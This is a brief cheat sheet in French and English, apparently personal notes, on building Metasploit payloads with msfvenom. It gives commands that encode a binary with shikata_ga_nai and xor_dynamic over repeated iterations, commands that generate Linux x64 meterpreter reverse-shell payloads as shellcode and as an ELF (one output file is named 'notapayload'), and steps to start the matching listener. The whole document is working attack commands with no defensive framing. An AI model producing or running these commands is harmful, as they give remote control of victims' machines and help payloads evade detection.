 ##Commande msfvenom : 

x86:
`msfvenom -e x86/shikata_ga_nai --platform Linux -i 10 -f c -a x86 -o asm01_x86.shellcode < asm01.bin`

x64:
`msfvenom -e x64/xor_dynamic --platform Linux -i 10 -f c -a x64 -o asm01_x64.shellcode < asm01.bin`

générer un reverse shell (shellcode) : `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.85 LPORT=12345 -f c > notapayload.shellcode`
and put it in a wrapper.

générer un reverse shell: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.85 LPORT=12345 -f elf > shell.elf`
and launch it with `./shell.elf` (dont forget a chmod u+x ./shell.elf)

ouvrir un listener : `msfconsole -q` > `set payload linux/x64/meterpreter/reverse_tcp` >
`set lhost 192.168.1.85` > `set lport 12345` > `run`